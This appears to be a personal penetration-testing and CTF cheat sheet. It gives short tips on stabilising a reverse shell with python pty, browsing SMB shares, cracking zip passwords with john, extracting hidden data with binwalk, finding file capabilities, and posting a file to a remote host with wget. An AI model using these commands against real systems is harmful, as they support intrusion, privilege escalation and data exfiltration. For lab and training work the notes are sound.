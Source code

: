 1)) If you get a reverse shell you know what that's look like without meterpreter or something. If you want to get a stable,interactive bash shell and if python is supported, then

> python -c "import pty; pty.spawn('/bin/bash')"

2)) Sometimes i get confused with smbclient. So this note is for mine.

> smbclient -L $IP$or$domain$

> smbclient \\\\\\\\$IP$or$domain$\\\\share

For downloading a file from remote server,

> get file

For uploading a file to remote server,

> put file

3)) When sending a POST request using the ' --post-file ' option, Wget treats the file as a binary file and will send every character in the POST request without stripping trailing newline or formfeed characters. Any other control characters in the text will also be sent as-is in the POST request.

> wget --post-file=file_to_post $desIP$:$PORT$

4)) scp (secure copy) command in Linux system is used to copy file(s) between servers in a secure way. The SCP command or secure copy allows secure transferring of files in between the local host and the remote host or between two remote hosts.

> scp <user@ip>:file-location destination

5)) If you have a password protected zip file,then you can use our useful friend john.

> zip2john file.zip > file.hash

> john file.hash

6)) Suppose you have a image file. As you are a hacker, you know what's that.You can extract a file or message from that image file.You can use binwalk for 
extracting file and steghide or zsteg for message.

> binwalk file.png

> binwalk -e file.png

7)) I don't know why linux system doesn't actually take golang as their own.Every time i have to write the following command to poke the system.

> source ~/.profile

8)) To see if capabilities are set on files in linux system, 

> getcap -r / 2>/dev/null

9)) Sometime ssh command doesn't work. Below command might help,

> sudo ip link set dev tun0 mtu 1200

Changing the mtu can help, increasing it can improve performance, decreasing can help with packet loss.

10)) After getting a reverse shell,

> python3 -c 'import pty;pty.spawn("/bin/bash")'

> press ctrl+z, to background the process

> stty raw -echo;fg

> export TERM = xterm


